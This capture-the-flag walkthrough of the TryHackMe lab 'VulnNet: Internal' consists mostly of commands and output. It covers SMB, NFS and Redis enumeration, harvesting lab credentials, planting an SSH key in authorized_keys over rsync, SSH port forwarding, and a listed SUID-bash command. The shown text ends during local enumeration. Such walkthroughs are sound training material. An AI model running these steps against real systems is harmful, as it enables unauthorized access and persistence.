

# TryHackMe-VulnNet: Internal

**Scope:**

- Remote Synchronization (RSYNC)
- NFS (Network File System)
- REDIS

**Keywords:**

- Server Message Block (SMB) Enumeration
- NFS (Network File System) Enumeration
- showmount
- mount
- Redis Enumeration
- Remote Synchronization (RSYNC) Enumeration
- SSH Connection with Remote Synchronization (RSYNC)
- SSH Port Forwarding
- Account Access with Token

**Main Commands:**

- `nmap -sSVC -T4 -A -O -oN nmap_result.txt -Pn -p- --min-rate 1000 --max-retries 3 $target_ip`
- `crackmapexec smb $target_ip -u 'anonymous' -p '' --shares`
- `smbmap -H $target_ip -u anonymous`
- `smbclient -U '' \\\\vulnnet.thm\\shares`
- `showmount -e $target_ip`
- `mount -t nfs $target_ip:/opt/conf configuration/thm`
- `nmap -sV -T4 -A -O -oN nmap_redis.txt -p 6379 --script="redis-*" -Pn $target_ip`
- `redis-cli -h $target_ip -p 6379 --insecure --no-auth-warning`
- `redis-cli -h $target_ip -a 'B65Hx562F@ggAZ@F' -p 6379 --insecure --no-auth-warning`
- `rsync -av --list-only rsync://vulnnet.thm:873`
- `rsync -av rsync://rsync-connect@vulnnet.thm:873/files ./rsyncthm/thm`
- `rsync -ahv ./id_rsa.pub rsync://rsync-connect@$target_ip:873/files/sys-internal/.ssh/authorized_keys --inplace --no-o --no-g`
- `ssh -i id_rsa.pub sys-internal@$target_ip -p 22`
- `sudo ssh sys-internal@10.10.6.118 -i id_rsa -L 8111:127.0.0.1:8111`

**System Commands:**

- `chmod u+s /bin/bash`

### Laboratory Environment

[VulnNet: Internal](https://tryhackme.com/r/room/vulnnetinternal)

### Penetration Approaches and Commands

> **Network Enumeration Phase**
> 

`nmap -sSVC -T4 -A -O -oN nmap_result.txt -Pn -p- --min-rate 1000 --max-retries 3 $target_ip`

```powershell
PORT      STATE SERVICE     VERSION
22/tcp    open  ssh         OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 5e:27:8f:48:ae:2f:f8:89:bb:89:13:e3:9a:fd:63:40 (RSA)
|   256 f4:fe:0b:e2:5c:88:b5:63:13:85:50:dd:d5:86:ab:bd (ECDSA)
|_  256 82:ea:48:85:f0:2a:23:7e:0e:a9:d9:14:0a:60:2f:ad (ED25519)
111/tcp   open  rpcbind     2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100003  3           2049/udp6  nfs
|   100003  3,4         2049/tcp6  nfs
|   100021  1,3,4      35727/tcp6  nlockmgr
|   100021  1,3,4      35871/tcp   nlockmgr
|   100021  1,3,4      41773/udp6  nlockmgr
|   100021  1,3,4      43641/udp   nlockmgr
|   100227  3           2049/tcp   nfs_acl
|   100227  3           2049/tcp6  nfs_acl
|   100227  3           2049/udp   nfs_acl
|_  100227  3           2049/udp6  nfs_acl
139/tcp   open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp   open  netbios-ssn Samba smbd 4.7.6-Ubuntu (workgroup: WORKGROUP)
873/tcp   open  rsync       (protocol version 31)
2049/tcp  open  nfs_acl     3 (RPC #100227)
6379/tcp  open  redis       Redis key-value store
35871/tcp open  nlockmgr    1-4 (RPC #100021)
39739/tcp open  mountd      1-3 (RPC #100005)
45057/tcp open  mountd      1-3 (RPC #100005)
56257/tcp open  mountd      1-3 (RPC #100005)
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.94SVN%E=4%D=12/31%OT=22%CT=1%CU=38469%PV=Y%DS=4%DC=T%G=Y%TM=677
OS:3BEC6%P=x86_64-pc-linux-gnu)SEQ(SP=101%GCD=1%ISR=105%TI=Z%CI=Z%II=I%TS=A
OS:)SEQ(SP=101%GCD=1%ISR=106%TI=Z%CI=Z%II=I%TS=A)SEQ(SP=102%GCD=1%ISR=105%T
OS:I=Z%CI=Z%II=I%TS=A)SEQ(SP=FF%GCD=1%ISR=105%TI=Z%CI=Z%II=I%TS=A)OPS(O1=M5
OS:08ST11NW7%O2=M508ST11NW7%O3=M508NNT11NW7%O4=M508ST11NW7%O5=M508ST11NW7%O
OS:6=M508ST11)WIN(W1=F4B3%W2=F4B3%W3=F4B3%W4=F4B3%W5=F4B3%W6=F4B3)ECN(R=Y%D
OS:F=Y%T=40%W=F507%O=M508NNSNW7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS%RD=0
OS:%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R=Y%DF=
OS:Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%
OS:RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T=40%I
OS:PL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD=S)

Network Distance: 4 hops
Service Info: Host: VULNNET-INTERNAL; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
| smb2-time: 
|   date: 2024-12-31T09:48:43
|_  start_date: N/A
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.7.6-Ubuntu)
|   Computer name: vulnnet-internal
|   NetBIOS computer name: VULNNET-INTERNAL\x00
|   Domain name: \x00
|   FQDN: vulnnet-internal
|_  System time: 2024-12-31T10:48:43+01:00
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
|_clock-skew: mean: -23m12s, deviation: 34m37s, median: -3m13s
|_nbstat: NetBIOS name: VULNNET-INTERNA, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
```

> **Server Message Block (SMB) Enumeration Phase**
> 

`crackmapexec smb $target_ip -u 'anonymous' -p '' --shares`

```powershell
SMB         10.10.6.118     445    VULNNET-INTERNAL [*] Windows 6.1 (name:VULNNET-INTERNAL) (domain:) (signing:False) (SMBv1:True)
SMB         10.10.6.118     445    VULNNET-INTERNAL [+] \anonymous: 
SMB         10.10.6.118     445    VULNNET-INTERNAL [+] Enumerated shares
SMB         10.10.6.118     445    VULNNET-INTERNAL Share           Permissions     Remark
SMB         10.10.6.118     445    VULNNET-INTERNAL -----           -----------     ------
SMB         10.10.6.118     445    VULNNET-INTERNAL print$                          Printer Drivers
SMB         10.10.6.118     445    VULNNET-INTERNAL shares          READ            VulnNet Business Shares
SMB         10.10.6.118     445    VULNNET-INTERNAL IPC$                            IPC Service (vulnnet-internal server (Samba, Ubuntu))

```

`nano /etc/hosts`

```powershell
10.10.6.118     vulnnet.thm VULNNET-INTERNAL
```

`smbmap -H $target_ip -u anonymous`

```powershell
[+] Guest session       IP: 10.10.6.118:445     Name: vulnnet.thm                                       
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        print$                                                  NO ACCESS       Printer Drivers
        shares                                                  READ ONLY       VulnNet Business Shares
        IPC$                                                    NO ACCESS       IPC Service (vulnnet-internal server (Samba, Ubuntu))
```

`smbclient -U '' \\\\vulnnet.thm\\shares`

```powershell
Password for [WORKGROUP\]:
Try "help" to get a list of possible commands.
smb: \> dir
  .                                   D        0  Tue Feb  2 04:20:09 2021
  ..                                  D        0  Tue Feb  2 04:28:11 2021
  temp                                D        0  Sat Feb  6 06:45:10 2021
  data                                D        0  Tue Feb  2 04:27:33 2021

                11309648 blocks of size 1024. 3279224 blocks available

smb: \> cd data
smb: \data\> dir
  .                                   D        0  Tue Feb  2 04:27:33 2021
  ..                                  D        0  Tue Feb  2 04:20:09 2021
  data.txt                            N       48  Tue Feb  2 04:21:18 2021
  business-req.txt                    N      190  Tue Feb  2 04:27:33 2021

                11309648 blocks of size 1024. 3278596 blocks available
smb: \data\> mget *
Get file data.txt? y
getting file \data\data.txt of size 48 as data.txt (0.0 KiloBytes/sec) (average 0.0 KiloBytes/sec)
Get file business-req.txt? y
getting file \data\business-req.txt of size 190 as business-req.txt (0.1 KiloBytes/sec) (average 0.1 KiloBytes/sec)
smb: \data\> cd ..
smb: \> cd temp
smb: \temp\> dir
  .                                   D        0  Sat Feb  6 06:45:10 2021
  ..                                  D        0  Tue Feb  2 04:20:09 2021
  services.txt                        N       38  Sat Feb  6 06:45:09 2021

                11309648 blocks of size 1024. 3277884 blocks available
smb: \temp\> mget *
Get file services.txt? y
getting file \temp\services.txt of size 38 as services.txt (0.0 KiloBytes/sec) (average 0.1 KiloBytes/sec)
smb: \temp\> 

```

`cat business-req.txt`

```powershell
We just wanted to remind you that we’re waiting for the DOCUMENT you agreed to send us so we can complete the TRANSACTION we discussed.
If you have any questions, please text or phone us.
```

`cat data.txt`

```powershell
Purge regularly data that is not needed anymore
```

> **NFS (Network File System) Enumeration Phase**
> 

`showmount -e $target_ip`

```powershell
Export list for 10.10.6.118:
/opt/conf *
```

`mkdir -p configuration/thm`

`mount -t nfs $target_ip:/opt/conf configuration/thm`

`ls -lsa configuration/thm`

```powershell
total 36
4 drwxr-xr-x 9 root root 4096 Feb  2  2021 .
4 drwxr-xr-x 3 root root 4096 Dec 31 09:56 ..
4 drwxr-xr-x 2 root root 4096 Feb  2  2021 hp
4 drwxr-xr-x 2 root root 4096 Feb  2  2021 init
4 drwxr-xr-x 2 root root 4096 Feb  2  2021 opt
4 drwxr-xr-x 2 root root 4096 Feb  2  2021 profile.d
4 drwxr-xr-x 2 root root 4096 Feb  2  2021 redis
4 drwxr-xr-x 2 root root 4096 Feb  2  2021 vim
4 drwxr-xr-x 2 root root 4096 Feb  2  2021 wildmidi
```

`cd configuration/thm ; df -k`

```powershell
Filesystem            1K-blocks     Used Available Use% Mounted on
udev                    1993584        0   1993584   0% /dev
tmpfs                    402344     1012    401332   1% /run
/dev/xvda1             30724080 24456584   4873620  84% /
tmpfs                   2011704     1052   2010652   1% /dev/shm
tmpfs                      5120        0      5120   0% /run/lock
/dev/xvda15              126678      270    126408   1% /boot/efi
tmpfs                    402340       72    402268   1% /run/user/123
tmpfs                    402340       72    402268   1% /run/user/0
10.10.6.118:/opt/conf  11309824  7331328   3384320  69% /root/configuration/thm

```

`grep -r 'pass'`

```powershell
redis/redis.conf:# 2) No password is configured.
redis/redis.conf:# If the master is password protected (using the "requirepass" configuration
redis/redis.conf:# masterauth <master-password>
redis/redis.conf:requirepass "B65Hx562F@ggAZ@F"
redis/redis.conf:# resync is enough, just passing the portion of data the slave missed while
redis/redis.conf:# 150k passwords per second against a good box. This means that you should
redis/redis.conf:# use a very strong password otherwise it will be very easy to break.
redis/redis.conf:# requirepass foobared
```

> **Redis Enumeration Phase**
> 

`nmap -sV -T4 -A -O -oN nmap_redis.txt -p 6379 --script="redis-*" -Pn $target_ip`

```powershell
PORT     STATE SERVICE VERSION
6379/tcp open  redis   Redis key-value store
| redis-brute: 
|   Accounts: No valid accounts found
|_  Statistics: Performed 5000 guesses in 184 seconds, average tps: 26.7
```

`redis-cli -h $target_ip -p 6379 --insecure --no-auth-warning`

```powershell
10.10.6.118:6379> keys *
(error) NOAUTH Authentication required.
10.10.6.118:6379> 
```

`redis-cli -h $target_ip -a 'B65Hx562F@ggAZ@F' -p 6379 --insecure --no-auth-warning`

```powershell
10.10.6.118:6379> keys *
1) "marketlist"
2) "int"
3) "tmp"
4) "internal flag"
5) "authlist"

10.10.6.118:6379> info
# Server
redis_version:4.0.9
redis_git_sha1:00000000
redis_git_dirty:0
redis_build_id:9435c3c2879311f3
redis_mode:standalone
os:Linux 4.15.0-135-generic x86_64
arch_bits:64
multiplexing_api:epoll
atomicvar_api:atomic-builtin
gcc_version:7.4.0
process_id:517
run_id:10a5c3734decfc98b579c2a9b2ea9b8dda9db041
tcp_port:6379
uptime_in_seconds:1747
uptime_in_days:0
hz:10
lru_clock:7586425
executable:/usr/bin/redis-server
config_file:/etc/redis/redis.conf

# Clients
connected_clients:1
client_longest_output_list:0
client_biggest_input_buf:0
blocked_clients:0

# Memory
used_memory:841488
used_memory_human:821.77K
used_memory_rss:3465216
used_memory_rss_human:3.30M
used_memory_peak:1863744
used_memory_peak_human:1.78M
used_memory_peak_perc:45.15%
used_memory_overhead:832358
used_memory_startup:782432
used_memory_dataset:9130
used_memory_dataset_perc:15.46%
total_system_memory:2087923712
total_system_memory_human:1.94G
used_memory_lua:37888
used_memory_lua_human:37.00K
maxmemory:0
maxmemory_human:0B
maxmemory_policy:noeviction
mem_fragmentation_ratio:4.12
mem_allocator:jemalloc-3.6.0
active_defrag_running:0
lazyfree_pending_objects:0

# Persistence
loading:0
rdb_changes_since_last_save:0
rdb_bgsave_in_progress:0
rdb_last_save_time:1735637926
rdb_last_bgsave_status:ok
rdb_last_bgsave_time_sec:-1
rdb_current_bgsave_time_sec:-1
rdb_last_cow_size:0
aof_enabled:0
aof_rewrite_in_progress:0
aof_rewrite_scheduled:0
aof_last_rewrite_time_sec:-1
aof_current_rewrite_time_sec:-1
aof_last_bgrewrite_status:ok
aof_last_write_status:ok
aof_last_cow_size:0

# Stats
total_connections_received:5020
total_commands_processed:5004
instantaneous_ops_per_sec:0
total_net_input_bytes:135142
total_net_output_bytes:125541
instantaneous_input_kbps:0.00
instantaneous_output_kbps:0.00
rejected_connections:0
sync_full:0
sync_partial_ok:0
sync_partial_err:0
expired_keys:0
expired_stale_perc:0.00
expired_time_cap_reached_count:0
evicted_keys:0
keyspace_hits:0
keyspace_misses:0
pubsub_channels:0
pubsub_patterns:0
latest_fork_usec:0
migrate_cached_sockets:0
slave_expires_tracked_keys:0
active_defrag_hits:0
active_defrag_misses:0
active_defrag_key_hits:0
active_defrag_key_misses:0

# Replication
role:master
connected_slaves:0
master_replid:c26dc43fd40b21f3153850e0fef037eb9eeaa1d8
master_replid2:0000000000000000000000000000000000000000
master_repl_offset:0
second_repl_offset:-1
repl_backlog_active:0
repl_backlog_size:1048576
repl_backlog_first_byte_offset:0
repl_backlog_histlen:0

# CPU
used_cpu_sys:2.84
used_cpu_user:1.59
used_cpu_sys_children:0.00
used_cpu_user_children:0.00

# Cluster
cluster_enabled:0

# Keyspace
db0:keys=5,expires=0,avg_ttl=0

10.10.6.118:6379> config get *
  1) "dbfilename"
  2) "dump.rdb"
  3) "requirepass"
  4) "B65Hx562F@ggAZ@F"
  5) "masterauth"
  6) ""
  7) "cluster-announce-ip"
  8) ""
  9) "unixsocket"
 10) ""
 11) "logfile"
 12) "/var/log/redis/redis-server.log"
 13) "pidfile"
 14) "/var/run/redis/redis-server.pid"
 15) "slave-announce-ip"
 16) ""
 17) "maxmemory"
 18) "0"
 19) "proto-max-bulk-len"
 20) "536870912"
 21) "client-query-buffer-limit"
 22) "1073741824"
 23) "maxmemory-samples"
 24) "5"
 25) "lfu-log-factor"
 26) "10"
 27) "lfu-decay-time"
 28) "1"
 29) "timeout"
 30) "0"
 31) "active-defrag-threshold-lower"
 32) "10"
 33) "active-defrag-threshold-upper"
 34) "100"
 35) "active-defrag-ignore-bytes"
 36) "104857600"
 37) "active-defrag-cycle-min"
 38) "25"
 39) "active-defrag-cycle-max"
 40) "75"
 41) "auto-aof-rewrite-percentage"
 42) "100"
 43) "auto-aof-rewrite-min-size"
 44) "67108864"
 45) "hash-max-ziplist-entries"
 46) "512"
 47) "hash-max-ziplist-value"
 48) "64"
 49) "list-max-ziplist-size"
 50) "-2"
 51) "list-compress-depth"
 52) "0"
 53) "set-max-intset-entries"
 54) "512"
 55) "zset-max-ziplist-entries"
 56) "128"
 57) "zset-max-ziplist-value"
 58) "64"
 59) "hll-sparse-max-bytes"
 60) "3000"
 61) "lua-time-limit"
 62) "5000"
 63) "slowlog-log-slower-than"
 64) "10000"
 65) "latency-monitor-threshold"
 66) "0"
 67) "slowlog-max-len"
 68) "128"
 69) "port"
 70) "6379"
 71) "cluster-announce-port"
 72) "0"
 73) "cluster-announce-bus-port"
 74) "0"
 75) "tcp-backlog"
 76) "511"
 77) "databases"
 78) "16"
 79) "repl-ping-slave-period"
 80) "10"
 81) "repl-timeout"
 82) "60"
 83) "repl-backlog-size"
 84) "1048576"
 85) "repl-backlog-ttl"
 86) "3600"
 87) "maxclients"
 88) "10000"
 89) "watchdog-period"
 90) "0"
 91) "slave-priority"
 92) "100"
 93) "slave-announce-port"
 94) "0"
 95) "min-slaves-to-write"
 96) "0"
 97) "min-slaves-max-lag"
 98) "10"
 99) "hz"
100) "10"
101) "cluster-node-timeout"
102) "15000"
103) "cluster-migration-barrier"
104) "1"
105) "cluster-slave-validity-factor"
106) "10"
107) "repl-diskless-sync-delay"
108) "5"
109) "tcp-keepalive"
110) "300"
111) "cluster-require-full-coverage"
112) "yes"
113) "cluster-slave-no-failover"
114) "no"
115) "no-appendfsync-on-rewrite"
116) "no"
117) "slave-serve-stale-data"
118) "yes"
119) "slave-read-only"
120) "yes"
121) "stop-writes-on-bgsave-error"
122) "yes"
123) "daemonize"
124) "yes"
125) "rdbcompression"
126) "yes"
127) "rdbchecksum"
128) "yes"
129) "activerehashing"
130) "yes"
131) "activedefrag"
132) "no"
133) "protected-mode"
134) "yes"
135) "repl-disable-tcp-nodelay"
136) "no"
137) "repl-diskless-sync"
138) "no"
139) "aof-rewrite-incremental-fsync"
140) "yes"
141) "aof-load-truncated"
142) "yes"
143) "aof-use-rdb-preamble"
144) "no"
145) "lazyfree-lazy-eviction"
146) "no"
147) "lazyfree-lazy-expire"
148) "no"
149) "lazyfree-lazy-server-del"
150) "no"
151) "slave-lazy-flush"
152) "no"
153) "maxmemory-policy"
154) "noeviction"
155) "loglevel"
156) "notice"
157) "supervised"
158) "no"
159) "appendfsync"
160) "everysec"
161) "syslog-facility"
162) "local0"
163) "appendonly"
164) "no"
165) "dir"
166) "/var/lib/redis"
167) "save"
168) "900 1 300 10 60 10000"
169) "client-output-buffer-limit"
170) "normal 0 0 0 slave 268435456 67108864 60 pubsub 33554432 8388608 60"
171) "unixsocketperm"
172) "0"
173) "slaveof"
174) ""
175) "notify-keyspace-events"
176) ""
177) "bind"
178) "0.0.0.0 ::1"

10.10.6.118:6379> type authlist
list
10.10.6.118:6379> lrange authlist 1 100
1) "QXV0aG9yaXphdGlvbiBmb3IgcnN5bmM6Ly9yc3luYy1jb25uZWN0QDEyNy4wLjAuMSB3aXRoIHBhc3N3b3JkIEhjZzNIUDY3QFRXQEJjNzJ2Cg=="
2) "QXV0aG9yaXphdGlvbiBmb3IgcnN5bmM6Ly9yc3luYy1jb25uZWN0QDEyNy4wLjAuMSB3aXRoIHBhc3N3b3JkIEhjZzNIUDY3QFRXQEJjNzJ2Cg=="
3) "QXV0aG9yaXphdGlvbiBmb3IgcnN5bmM6Ly9yc3luYy1jb25uZWN0QDEyNy4wLjAuMSB3aXRoIHBhc3N3b3JkIEhjZzNIUDY3QFRXQEJjNzJ2Cg=="

10.10.6.118:6379> 
```

`echo 'QXV0aG9yaXphdGlvbiBmb3IgcnN5bmM6Ly9yc3luYy1jb25uZWN0QDEyNy4wLjAuMSB3aXRoIHBhc3N3b3JkIEhjZzNIUDY3QFRXQEJjNzJ2Cg==' | base64 -d`

```powershell
Authorization for rsync://rsync-connect@127.0.0.1 with password
Hcg3HP67@TW@Bc72v
```

> **Remote Synchronization (RSYNC) Enumeration**
> 

`rsync -av --list-only rsync://vulnnet.thm:873`

```powershell
files           Necessary home interaction
```

`mkdir -p rsyncthm/thm`

`rsync -av rsync://rsync-connect@vulnnet.thm:873/files ./rsyncthm/thm`

```powershell
Password: Hcg3HP67@TW@Bc72v

receiving incremental file list
./
sys-internal/
sys-internal/.Xauthority
sys-internal/.bash_history -> /dev/null
sys-internal/.bash_logout
sys-internal/.bashrc
sys-internal/.dmrc
sys-internal/.profile

[REDACTED] - MORE
```

`ls -lsa rsyncthm/thm/sys-internal`

```powershell
4 drwxr-xr-x 18 kali lxd  4096 Feb  6  2021 .
4 drwxr-xr-x  3 root root 4096 Feb  1  2021 ..
4 -rw-------  1 kali lxd    61 Feb  6  2021 .Xauthority
0 lrwxrwxrwx  1 root root    9 Feb  1  2021 .bash_history -> /dev/null
4 -rw-r--r--  1 kali lxd   220 Feb  1  2021 .bash_logout
4 -rw-r--r--  1 kali lxd  3771 Feb  1  2021 .bashrc
4 drwxrwxr-x  8 kali lxd  4096 Feb  2  2021 .cache
4 drwxrwxr-x 14 kali lxd  4096 Feb  1  2021 .config
4 drwx------  3 kali lxd  4096 Feb  1  2021 .dbus
4 -rw-r--r--  1 kali lxd    26 Feb  1  2021 .dmrc
4 drwx------  3 kali lxd  4096 Feb  1  2021 .gnupg
4 drwxrwxr-x  3 kali lxd  4096 Feb  1  2021 .local
4 drwx------  5 kali lxd  4096 Feb  1  2021 .mozilla
4 -rw-r--r--  1 kali lxd   807 Feb  1  2021 .profile
0 lrwxrwxrwx  1 root root    9 Feb  2  2021 .rediscli_history -> /dev/null
4 drwxrwxr-x  2 kali lxd  4096 Feb  6  2021 .ssh
0 -rw-r--r--  1 kali lxd     0 Feb  1  2021 .sudo_as_admin_successful
4 drwx------  4 kali lxd  4096 Feb  2  2021 .thumbnails
4 -rw-r--r--  1 kali lxd    14 Feb 12  2018 .xscreensaver
4 -rw-------  1 kali lxd  2546 Feb  6  2021 .xsession-errors
4 -rw-------  1 kali lxd  2546 Feb  6  2021 .xsession-errors.old
4 drwx------  2 kali lxd  4096 Feb  1  2021 Desktop
4 drwxr-xr-x  2 kali lxd  4096 Feb  1  2021 Documents
4 drwxr-xr-x  2 kali lxd  4096 Feb  1  2021 Downloads
4 drwxr-xr-x  2 kali lxd  4096 Feb  1  2021 Music
4 drwxr-xr-x  2 kali lxd  4096 Feb  1  2021 Pictures
4 drwxr-xr-x  2 kali lxd  4096 Feb  1  2021 Public
4 drwxr-xr-x  2 kali lxd  4096 Feb  1  2021 Templates
4 drwxr-xr-x  2 kali lxd  4096 Feb  1  2021 Videos
4 -rw-------  1 kali lxd    38 Feb  6  2021 user.txt
```

> **SSH Connection with Remote Synchronization (RSYNC)**
> 

`cp /root/.ssh/id_rsa.pub .`

`rsync -ahv ./id_rsa.pub rsync://rsync-connect@$target_ip:873/files/sys-internal/.ssh/authorized_keys --inplace --no-o --no-g`

```powershell
Password: Hcg3HP67@TW@Bc72v
sending incremental file list
id_rsa.pub

sent 657 bytes  received 35 bytes  51.26 bytes/sec
total size is 563  speedup is 0.81
```

`chmod 600 id_rsa.pub`

`ssh -i id_rsa.pub sys-internal@$target_ip -p 22`

```powershell
sys-internal@vulnnet-internal:~$ whoami
sys-internal
sys-internal@vulnnet-internal:~$ id
uid=1000(sys-internal) gid=1000(sys-internal) groups=1000(sys-internal),24(cdrom)
sys-internal@vulnnet-internal:~$ pwd
/home/sys-internal

sys-internal@vulnnet-internal:~$ dpkg --version
Debian 'dpkg' package management program version 1.19.0.5 (amd64).
This is free software; see the GNU General Public License version 2 or
later for copying conditions. There is NO warranty.
sys-internal@vulnnet-internal:~$ uname -a
Linux vulnnet-internal 4.15.0-135-generic #139-Ubuntu SMP Mon Jan 18 17:38:24 UTC 2021 x86_64 x86_64 x86_64 GNU/Linux

sys-internal@vulnnet-internal:~$ ls -lsa /home
total 12
4 drwxr-xr-x  3 root         root         4096 Feb  1  2021 .
4 drwxr-xr-x 24 root         root         4096 Feb  6  2021 ..
4 drwxr-xr-x 18 sys-internal sys-internal 4096 Feb  6  2021 sys-internal
sys-internal@vulnnet-internal:~$ cat /etc/passwd | grep '/bin/bash'
root:x:0:0:root:/root:/bin/bash
sys-internal:x:1000:1000:sys-internal,,,:/home/sys-internal:/bin/bash

sys-internal@vulnnet-internal:~$ groups
sys-internal cdrom
sys-internal@vulnnet-internal:~$ getent group cdrom
cdrom:x:24:sys-internal

sys-internal@vulnnet-internal:~$ 
```

> **Internal System Investigation Phase**
> 

```powershell
sys-internal@vulnnet-internal:~$ ss -tuwln

[REDACTED] - MORE

tcp    LISTEN   0        128                     0.0.0.0:111              0.0.0.0:*      
tcp    LISTEN   0        128               127.0.0.53%lo:53               0.0.0.0:*      
tcp    LISTEN   0        128                     0.0.0.0:22               0.0.0.0:*      
tcp    LISTEN   0        5                     127.0.0.1:631              0.0.0.0:* 

[REDACTED] - MORE

sys-internal@vulnnet-internal:~$ wget 127.0.0.1:631

--2024-12-31 11:32:54--  http://127.0.0.1:631/
Connecting to 127.0.0.1:631... connected.
HTTP request sent, awaiting response... 200 OK
Length: 2362 (2.3K) [text/html]
Saving to: ‘index.html’

index.html             100%[=========================>]   2.31K  --.-KB/s    in 0s      

2024-12-31 11:32:54 (381 MB/s) - ‘index.html’ saved [2362/2362]

sys-internal@vulnnet-internal:~$ cat index.html
<!DOCTYPE HTML>
<html>
  <head>
    <link rel="stylesheet" href="/cups.css" type="text/css">
    <link rel="shortcut icon" href="/apple-touch-icon.png" type="image/png">
    <meta charset="utf-8">
    <meta http-equiv="Content-Type" content="text/html; charset=utf-8">
    <meta http-equiv="X-UA-Compatible" content="IE=9">
    <meta name="viewport" content="width=device-width">
    <title>Home - CUPS 2.2.7</title>
  </head>
  <body>
  
  [REDACTED] - MORE

sys-internal@vulnnet-internal:~$ ls -lsa /TeamCity/logs/
total 452
  4 drwxr-xr-x  2 root root   4096 Dec 31 10:41 .
  4 drwxr-xr-x 12 root root   4096 Feb  6  2021 ..
 16 -rw-r-----  1 root root  12493 Feb  6  2021 catalina.2021-02-06.log
  8 -rw-r-----  1 root root   8132 Feb  7  2021 catalina.2021-02-07.log
  8 -rw-r-----  1 root root   6037 Dec 31 10:41 catalina.2024-12-31.log
156 -rw-r--r--  1 root root 156289 Dec 31 11:01 catalina.out
  0 -rw-r-----  1 root root      0 Feb  6  2021 host-manager.2021-02-06.log
  0 -rw-r-----  1 root root      0 Feb  7  2021 host-manager.2021-02-07.log
  0 -rw-r-----  1 root root      0 Dec 31 10:38 host-manager.2024-12-31.log
  0 -rw-r-----  1 root root      0 Feb  6  2021 localhost.2021-02-06.log
  0 -rw-r-----  1 root root      0 Feb  7  2021 localhost.2021-02-07.log
  0 -rw-r-----  1 root root      0 Dec 31 10:38 localhost.2024-12-31.log
  0 -rw-r-----  1 root root      0 Feb  6  2021 manager.2021-02-06.log
  0 -rw-r-----  1 root root      0 Feb  7  2021 manager.2021-02-07.log
  0 -rw-r-----  1 root root      0 Dec 31 10:38 manager.2024-12-31.log
  4 -rw-r-----  1 root root    967 Dec 31 10:46 teamcity-activities.log
  4 -rw-r-----  1 root root    865 Feb  6  2021 teamcity-auth.log
  4 -rw-r-----  1 root root   1272 Dec 31 10:46 teamcity-cleanup.log
  4 -rw-r-----  1 root root    374 Feb  6  2021 teamcity-diagnostics.log
  8 -rw-r-----  1 root root   6978 Feb  6  2021 teamcity-javaLogging-2021-02-06.log
  4 -rw-r-----  1 root root   3431 Feb  7  2021 teamcity-javaLogging-2021-02-07.log
  4 -rw-r-----  1 root root   3377 Dec 31 10:46 teamcity-javaLogging-2024-12-31.log
  0 -rw-r--r--  1 root root      0 Dec 31 10:38 teamcity.lock
  4 -rw-r-----  1 root root   4007 Dec 31 10:44 teamcity-mavenServer.log
  4 -rw-r-----  1 root root    156 Feb  7  2021 teamcity-nodes.log
  4 -rw-r-----  1 root root   1288 Dec 31 10:44 teamcity-notifications.log
  4 -rw-r--r--  1 root root      4 Dec 31 10:39 teamcity.pid
 20 -rw-r-----  1 root root  19540 Dec 31 10:46 teamcity-rest.log
172 -rw-r-----  1 root root 168439 Dec 31 11:01 teamcity-server.log
  4 -rw-r-----  1 root root    784 Feb  7  2021 teamcity-tfs.log
  4 -rw-r-----  1 root root   2012 Dec 31 10:46 teamcity-vcs.log
  4 -rw-r--r--  1 root root    464 Dec 31 10:38 teamcity-wrapper.log
  4 -rw-r-----  1 root root    568 Dec 31 10:41 teamcity-ws.log
  
sys-internal@vulnnet-internal:~$ grep -iR 'Token' 2>/dev/null
Binary file .cache/mozilla/firefox/jftj8bb8.default/startupCache/scriptCache-child-current.bin matches
Binary file .cache/mozilla/firefox/jftj8bb8.default/startupCache/scriptCache-current.bin matches
